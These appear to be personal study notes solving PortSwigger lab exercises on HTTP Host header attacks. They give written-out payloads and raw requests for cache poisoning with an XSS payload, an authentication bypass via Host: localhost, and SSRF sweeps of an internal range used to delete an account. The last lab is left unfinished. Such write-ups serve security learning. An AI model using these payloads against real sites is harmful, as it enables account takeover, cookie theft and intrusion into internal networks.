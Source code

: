 # **HTTP Host header attacks**
https://portswigger.net/web-security/host-header

# How to identify and exploit HTTP Host header vulnerabilities
https://portswigger.net/web-security/host-header/exploiting

How to identify and exploit HTTP Host header vulnerabilities:
1. Check for flawed validation
2. Inject duplicate Host headers
3. Supply an absolute URL
4. Add line wrapping ( by indentation)
5. Inject host override headers (X-Forwarded-Host / X-Host / X-Forwarded-Server / X-HTTP-Host-Override / Forwarded)


# 1. Lab: Web cache poisoning via the Host header
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests
 To solve the lab, poison the cache so the home page executes alert(document.cookie) in the victim's browser. 

 xss shit

 1. change original HH - observe 500 failed
 2. add another HH and change value to test - observe reflection in response
 3. experiment with different values until payload:

```
    Host: 0a18008d04cfbdb1c061c9350092009a.web-security-academy.net
    Host: blah"onerror=alert(document.cookie)//
```
note:


request field:
```
Cache-Control: max-age=0
```

response fields:
```
Cache-Control: max-age=30
Age: 28
X-Cache: hit
```

material:
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control


**XSSed the Cache**

#

# 2. Lab: Host header authentication bypass
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-authentication-bypass

To solve the lab, access the admin panel and delete Carlos's account. 

1. request admin panel - observe 401 unauthorised:
```
    GET / HTTP/1.1
    Host: 0ab2006f037c2dbbc013efc9004f0026.web-security-academy.net
```

response:
```
    HTTP/1.1 401 Unauthorized

```
2. change Host - experiment different values:
```
    127.0.0.1 - fails

```
payload:
```
    GET /admin/delete?username=carlos HTTP/1.1
    Host: localhost
```

#

# 3. Lab: Routing-based SSRF
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-routing-based-ssrf

note: 

require collaborator? just for first stage so we can skip testing via collaborator (sorry for it - will be comleted with burp pro)


1. send **GET /admin /HTTP1.1** to **intruder**, Change Host field to **192.168.0.x**, mark **x** with payload marker (§x§):

```
GET /admin HTTP/1.1
Host: 192.168.0.§0§
```

2. use intruder payload "number" and set:
```
from: 0
to: 255
step: 1
```

3. find the only response that is not **504** and send to repeater

4. send and observe we get admin panel in response with delete user interface

5. **request in browser** and send delete request: observe it fail. 

6. research in proxy. find out **host** changed back to original.

7. change to local adress and try again

# portswigger solution:

    in admin panel research delete form:
    observe method: **POST**
    observe path: **admin/delete** 
    observe required fields: **csrf - sVn2OQMP3K1id3suCsKbb2WgwH1iA8KU**
    username - 

resend message to repeater and change to craft a valid delete request:

    POST /admin/delete HTTP/1.1
    Host: 192.168.0.49
    ..

    csrf=sVn2OQMP3K1id3suCsKbb2WgwH1iA8KU&username=carlos

**DELETED**

#

# 4. Lab: SSRF via flawed request parsing
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing

 To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos. 

require collaborator? only for verification of vulnarbility

_

**...to be completed**










